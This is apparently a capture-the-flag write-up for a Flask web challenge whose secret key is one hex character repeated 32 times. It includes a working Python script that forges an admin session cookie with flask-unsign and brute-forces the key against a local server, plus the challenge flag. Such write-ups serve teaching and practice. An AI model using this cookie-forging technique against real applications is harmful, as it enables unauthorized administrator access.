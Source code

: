 # SmallMistakeBigMistake

### Category

Web

### Description

The website developer made a small mistake in the code of his website.

Can you identify and exploit it to extract the flag?

URL : http://xxx

Format : **Hero{flag}**<br>
Auteur : **xanhacks**

### Files

- [main.py](./src/main.py)

### Write Up

The Flask secret is generated using the following line of code :

`app.secret_key = choice(hexdigits) * 32`

However, this line will generate a random character multiplied by 32 and not 32 random characters as you might think.

Example :

```python
>>> from random import choice
>>> from string import hexdigits
>>>
>>> hexdigits
'0123456789abcdefABCDEF'
>>> len(hexdigits)
22
>>> choice(hexdigits)
'1'
>>> choice(hexdigits)
'8'
>>> choice(hexdigits)
'b'
>>> # All characters are the same
>>> choice(hexdigits) * 32
'99999999999999999999999999999999'
>>> choice(hexdigits) * 32
'cccccccccccccccccccccccccccccccc'
>>> choice(hexdigits) * 32
'bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb'
>>> # Example of 32 random characters
>>> "".join([choice(hexdigits) for _ in range(32)])
'98429d37F096cB6b5EB4bdD0D24d0DB9'
>>> "".join([choice(hexdigits) for _ in range(32)])
'7722Fdb6FaCeBbc10af8e3ca1894EBFe'
>>> "".join([choice(hexdigits) for _ in range(32)])
'89EEE9ef54eC78BF13bcC320Fa2b0Dab'
```

By knowing the Flask secret, you can create your own session cookie and thus get past the administrator. Just brute force the 22 (`len(hexdigits)`) possibilities.

You can do it with a simple python script :

```python
#!/usr/bin/env python3
from string import hexdigits

# python3 -m pip install requests flask-unsign
from requests import get
from flask_unsign import session, DEFAULT_SALT

for c in hexdigits:
    secret = c * 32
    session_cookie = session.sign(
        value={"username": "admin"}, secret=secret, salt=DEFAULT_SALT, legacy=False
    )

    cookies = {"session": session_cookie}
    print("Trying with '" + c + "' ...")
    req = get("http://127.0.0.1:5000/", cookies=cookies)

    if not "You are not admin !" in req.text:
        print("Flag :", req.text.split("<h3>")[1].split("</h3>")[0])
        break
```

Execution :

```bash
$ python3 solve.py
Trying with '0' ...
Trying with '1' ...
Trying with '2' ...
Trying with '3' ...
Trying with '4' ...
Trying with '5' ...
Trying with '6' ...
Trying with '7' ...
Trying with '8' ...
Trying with '9' ...
Trying with 'a' ...
Flag : Hero{Sm4ll_Mist4ke_c4n_be_d4ngerous_10853085}
```

### Flag

Hero{Sm4ll_Mist4ke_c4n_be_d4ngerous_10853085}